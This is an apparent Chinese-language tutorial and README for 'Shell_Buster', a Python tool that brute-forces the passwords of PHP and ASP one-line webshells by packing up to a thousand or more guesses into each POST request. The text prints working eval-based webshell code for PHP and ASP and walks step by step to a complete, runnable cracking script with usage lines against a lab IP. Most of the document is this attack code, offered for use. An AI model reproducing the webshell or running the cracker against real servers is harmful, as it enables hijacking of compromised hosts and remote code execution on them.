






# Shell_Buster
### python之提速千倍爆破一句话

最初思路源于T00ls版主`**接地气**`，一个低调、热心的安全研究者。向技术研究者和分享者致敬！！！


本来接地气大牛已经写出了C#版本的工具了，那天在群里王子表哥突然那么一问，于是我就写了这篇详细的过程。


一般来说，一句话木马脚本的样本如下：

>**PHP：**`<?php @eval($_POST['v5est0r']);?>`

>**ASP：**`<%eval request("v5est0r")%>`

一般来说，一句话木马通过POST方式的传参方式如下（以写出字符的语句为例）：


>**PHP：**`v5est0r=echo "password is v5est0r";`

>**ASP：**`v5est0r=response.write("password:v5est0r")`


如下，我们这里准备了一个PHP版本的一句话木马，密码是`v5est0r`，POST的数据是`v5est0r=echo "password is v5est0r";`，变量提交能匹配上即执行`echo`语句，此为传统的单数据提交模式，





那么根据接地气大哥的思路，一次提交多个变量数据呢？多个变量用`&`连接符连接起来。无论是提交一个变量还是多个变量，服务器都是判断一次，只要提交内容中存在正确的变量就执行`echo`语句，于是乎，一次提交多个变量就大大增加了破解效率。

```
v5est0r=echo "password is v5est0r";&123=echo "password is 123";&admin=echo "password is admin";&1=echo "password is 1";&pass=echo "password is pass";&test=echo "password is test";
```


Apache一次允许同时提交1000个参数，  IIS允许一次提交5883个参数。


那么，在python中如何实现呢？

下图是我们在python命令行下使用requests库测试提交，很方便：




```
promote:~ v5est0r$ pip install requests
promote:~ v5est0r$ python
Python 2.7.12 (v2.7.12:d33e0cf91556, Jun 26 2016, 12:03:00) 
[GCC 4.2.1 (Apple Inc. build 5577)] on darwin
Type "help", "copyright", "credits" or "license" for more information.
>>> import requests
>>> data = {'123': 'echo "password is 123";'}
>>> r = requests.post('http://192.168.1.103/hack.php', data=data)
>>> print(r.text)


>>> data2 = {'v5est0r': 'echo "password is v5est0r";'}
>>> r = requests.post('http://192.168.1.103/hack.php', data=data2)
>>> print(r.text)
password is v5est0r
>>> 
```


思路有了，开始一点一点在代码中实现，下面的代码体现了：

>判断该变量是是否与一句话木马变量匹配

>尝试多变量提交数据

>清空字典并尝试向添加新的变量




如是，很简单的判断出了一句话木马的变量是`v5est0r`，当前的提交变量对应的数据是：

```
{'test': 'echo "password is test";', 'v5est0r': 'echo "password is v5est0r";', '123': 'echo "password is 123";', 'hack': 'echo "password is hack";'}
```

接下来要解决的问题就是从字典文件中读取变量并合并写入提交的数据组：

我们在本目录提供了字典文件`pass.txt`，内容如下：

```
1
12
123
Pass
Test
Admin
Whoami
Set
```

一开始我尝试把字典通过`readlines`逐行读取，并写入一个元组中，但是有换行符`\n`扰乱我们提取纯净的字典数据，为了解决或者这个问题我真是绞尽脑汁，我还是太笨了。。。，搞了两个小时才解决，使用`strip`函数删除无关数据，我还是不明白起初的思路利用`replace`函数替换为什么不可以：

```
post_data = {}
s = open('pass.txt','r')
content = s.readlines()

jj = []
i = 0

for i in range(0,7):
    mm = str(content[i]).strip('\n')
    jj.append(mm)
print jj

for each in jj:
    post_data[each] = 'echo "password is %s";' % each
print post_data
```



提交的数据是：

```
{'v5est0r': 'echo "password is v5est0r";', '12': 'echo "password is 12";', 'Admin': 'echo "password is Admin";', '1': 'echo "password is 1";', '123': 'echo "password is 123";', 'Pass': 'echo "password is Pass";', 'Test': 'echo "password is Test";'}
```

如此完美解决数据的拼接问题。


我们上面说过，Apache一次允许同时提交1000个参数，  IIS允许一次提交5883个参数。我们这里就不做具体的区分了，同一把字典以1000为单位分组：

```
post_data = {}  #创建字典集
s = open('pass.txt','r')
content = s.readlines() #分行读取字典
dics = len(content)/1000

print '当前字典中变量个数为: %s' % str(len(content))

print "字典将被分割为 %s 份" % str(dics)

group = []  #字典每行独立化,写入元组
for h in range(0,len(content)):
    password = str(content[h]).strip('\n')  #剔除换行符
    group.append(password)
#print group

```


经过如上分析，接下来就是分批提交了，这就很简单了，初始DEMO如下：

```
# -*- coding: UTF-8 -*-
#coding by v5est0r
#单次多变量提交变量方式,一句话爆破提速千倍

import requests

shell = 'http://192.168.1.103/hack.php'

#v5est0r=response.write("password:v5est0r")

post_data = {}  #创建字典集
s = open('pass.txt','r')
content = s.readlines() #分行读取字典
dics = len(content)/1000

print '当前字典中变量个数为: %s' % str(len(content))

print "字典将被分割为 %s 份" % str(dics)

group = []  #字典每行独立化,写入元组
for h in range(0,len(content)):
    password = str(content[h]).strip('\n')  #剔除换行符
    group.append(password)
#print group


#下面建立错误密码的返回标识符
post_test = {'test_pass_test': 'echo "test!!";'}
res = requests.post(shell, data=post_test)
wrong_res = res.text


for i in range(0,dics):
    new_group = []
    for k in range(i * 1000, (i + 1) * 1000):
        new_group.append(group[k])
        k += 1
    for each in new_group:
        post_data[each] = 'echo "password is %s";' % each
    r = requests.post(shell, data=post_data)
    print "正在进行第 %s 组字典爆破" % str(i+1)
    post_data.clear()
    i+=1
    print r.text
    if len(r.text) != len(wrong_res):
        break
```


如上，代码初步完成，我们先测试下效果：

这里准备了一个字典，有68万+的密码变量，我们把正确的密码放在最后一个：



尝试执行脚本，可以看到，python处理数据极快：


但是，出现了问题，明明是存在密码的，但是却没爆破出来。后来想了下，是因为密码在最后一位，我们在以千为单位分割时漏掉了余数，于是如下添加以下代码补齐余数：

```
new_group1 = []
for kk in range(dics * 1000, len(content)):
    new_group1.append(group[kk])
    kk += 1
for each in new_group1:
    post_data[each] = 'echo "password is %s";' % each
r = requests.post(shell, data=post_data)
print "正在进行余数字典爆破"
print r.text
```


如此，软件基本成型，我们还需加入ASP类型的脚本木马爆破，直接替换提交的数据即可。

为了方便我们的用户使用，需要进行变量在命令行由客户传入，即实现自定义和批量等功能：

客户传参使用`ConfigParser`模块，完整代码如下，加入了脚本类型的区分：

```
# -*- coding: UTF-8 -*-
#coding by v5est0r
#单次多变量提交变量方式,一句话爆破提速千倍

import requests,sys
import ConfigParser

shell = sys.argv[1]
shell_type=sys.argv[2]
pass_dic=sys.argv[3]

print '''

   Usage:python ShellBuster.py shell_url shell_type dic_dir

              Code by binghe/v5est0r
'''


post_data = {}  #创建字典集
s = open(pass_dic,'r')
content = s.readlines() #分行读取字典
dics = len(content)/1000

print '当前字典中变量个数为: %s' % str(len(content))

print "字典将被分割为 %s 份" % str(dics)

group = []  #字典每行独立化,写入元组
for h in range(0,len(content)):
    password = str(content[h]).strip('\n')  #剔除换行符
    group.append(password)
#print group


if str(shell_type)=="php":
    post_test = {'test_pass_test': 'echo "test!!";'}
    res = requests.post(shell, data=post_test)
    wrong_res = res.text
    post_test.clear()

    for i in range(0, dics):
        new_group = []
        for k in range(i * 1000, (i + 1) * 1000):
            new_group.append(group[k])
            k += 1
        for each in new_group:
            post_data[each] = 'echo "password is %s";' % each
        r = requests.post(shell, data=post_data)
        print "正在进行第 %s 组字典爆破" % str(i + 1)
        post_data.clear()
        i += 1
        print r.text
        if len(r.text) != len(wrong_res):
            break

    new_group1 = []
    for kk in range(dics * 1000, len(content)):
        new_group1.append(group[kk])
        kk += 1
    for each in new_group1:
        post_data[each] = 'echo "password is %s";' % each
    r = requests.post(shell, data=post_data)
    print "正在进行余数字典爆破"
    print r.text

#v5est0r=response.write("password:v5est0r")

if shell_type =='asp':
    # 下面建立错误密码的返回标识符
    post_test = {'test_pass_test': 'response.write("test!!!")'}
    res = requests.post(shell, data=post_test)
    wrong_res = res.text
    post_test.clear()

    for i in range(0, dics):
        new_group = []
        for k in range(i * 1000, (i + 1) * 1000):
            new_group.append(group[k])
            k += 1
        for each in new_group:
            post_data[each] = 'response.write("password: %s")' % each
        r = requests.post(shell, data=post_data)
        print "正在进行第 %s 组字典爆破" % str(i + 1)
        post_data.clear()
        i += 1
        print r.text
        if len(r.text) != len(wrong_res):
            break

    new_group1 = []
    for kk in range(dics * 1000, len(content)):
        new_group1.append(group[kk])
        kk += 1
    for each in new_group1:
        post_data[each] = 'response.write("password: %s")' % each
    r = requests.post(shell, data=post_data)
    print "正在进行余数字典爆破"
    print r.text
```


这里是使用if语句判断用户传入的是ASP还是PHP类型的一句话木马。

脚本使用请如下填写相关参数：

PHP脚本测试效果，30万字典几秒就跑完了：

```
python ShellBuster.py shell_url shell_type dic_dir
//python ShellBuster.py 木马地址 脚本类型 字典位置
```

```
python ShellBuster.py http://192.168.1.103/hack.php php pass.txt
```


ASP脚本测试效果，30万字典几秒就跑完了：

```
python ShellBuster.py http://192.168.1.103:8080/hack.asp asp pass.txt
```



aspx脚本与asp同理，直接沿用asp的模块：

```
python ShellBuster.py http://192.168.1.103/hack.aspx asp pass.txt
```

ASP脚本可以改成5000个变量一组，那样就更快了，估计1000万的字典也跑不了几秒。我下次写个封装函数出来再细分吧，先休息了。

基本就是这样，仅作方便使用，有问题大家可根据源码修改。
